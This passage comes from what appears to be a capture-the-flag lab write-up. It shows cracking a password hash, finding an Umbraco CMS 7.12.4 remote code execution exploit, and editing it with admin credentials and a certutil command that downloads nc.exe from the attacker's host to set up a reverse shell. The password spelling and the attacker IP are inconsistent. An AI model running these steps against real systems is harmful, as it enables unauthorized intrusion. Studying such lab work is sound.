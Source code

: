 {{< highlight html >}}
john hash --format=Raw-SHA1 --wordlist=/usr/share/wordlists/rockyou.txt
{{< /highlight >}}

Where:
- hash is a file containing the actual password hash

The password is `beaconandcheese`!

At this point, to complete the enumeration phase it is important to identify the CMS version in order to be able to check for potential vulnerabilities affecting this particular version. The version is **7.12.4**, as stated in the `Web.config file`.

Searching on `searchsploit` for related vulns, I found this one:

{{< highlight html >}}
searchsploit Umbraco 7.12.4
-------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                              |  Path
-------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution                                                                                  | aspx/webapps/46153.py
-------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

{{< /highlight >}}

# Exploitation

The script is a **Remote Code execution script** and it needs a valid `Admin` authentication in order to function (I have admin credentials). It only needs some edits.
I will first upload the netcat program `nc.exe` from my machine and then set up a netcat reverse shell.

First I have to edit the following lines:

{{< highlight html >}}
login = "admin@htb.local";
password="baconandcheese";
host = "http://10.10.10.180";
{{< /highlight >}}

And edit the payload section with a custom command cmd (which will upload nc.exe in C:\Windows\Temp):

{{< highlight html >}}
{ string cmd = "/c certutil -urlcache -split -f http://10.10.14:12:80/nc.exe c:/Windows/Temp/nc.exe";
{{< /highlight >}}
